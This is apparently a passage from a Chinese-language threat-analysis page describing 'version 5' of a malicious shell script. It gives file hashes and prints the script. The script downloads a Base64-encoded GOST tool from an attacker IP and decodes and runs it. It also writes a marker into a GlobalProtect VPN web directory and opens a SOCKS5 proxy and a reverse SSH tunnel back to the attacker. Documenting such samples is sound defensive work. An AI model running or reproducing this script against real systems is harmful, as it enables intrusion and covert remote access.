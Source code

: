   
**版本5**  
  
这是版本 4 的修改版本，可成功下载 Base64 编码格式的 GOST。  
  
<table><tbody style="appearance: none;outline: 0px;"><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Name(s)</span></p></td><td width="469" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">policy</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Size</span></p></td><td width="469" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">421B (421 Bytes)</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">File Type</span></p></td><td width="469" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">text/x-shellscript</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">MD5</span></p></td><td width="469" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">12b5e30c2276664e87623791085a3221</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA1</span></p></td><td width="469" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">f99779a5c891553ac4d4cabf928b2121ca3d1a89</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA256</span></p></td><td width="469" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">96dbec24ac64e7dd5fef6e2c26214c8fe5be3486d5c92d21d5dcb4f6c4e365b9</span></p></td></tr><tr style="appearance: none;outline: 0px;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">VirusTotal First Submitted</span></p></td><td width="469" style="appearance: none;padding: 0.5rem;vertical-align: top;outline: 0px;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">N/A</span></p></td></tr></tbody></table>  
```
#!/bin/bashwget http://172.233.228[.]93/vpn.log -O /tmp/vpn.logbase64 -d /tmp/vpn.log > /tmp/vpn_prot.gzls -l /tmp/vpn_prot.gz > /var/appweb/sslvpndocs/global-protect/u.cssgzip -d /tmp/vpn_prot.gzchmod +x /tmp/vpn_protnohup /tmp/vpn_prot -L=socks5://127.0.0[.]1:8123 > /dev/null 2>&1 &nohup /tmp/vpn_prot -L rtcp://127.0.0[.]1:8080/127.0.0.1:8123 -F ssh://user0:[password_redacted]@172.233.228[.]93:8443?ping=180 > /dev/null 2>&1 &
```  
  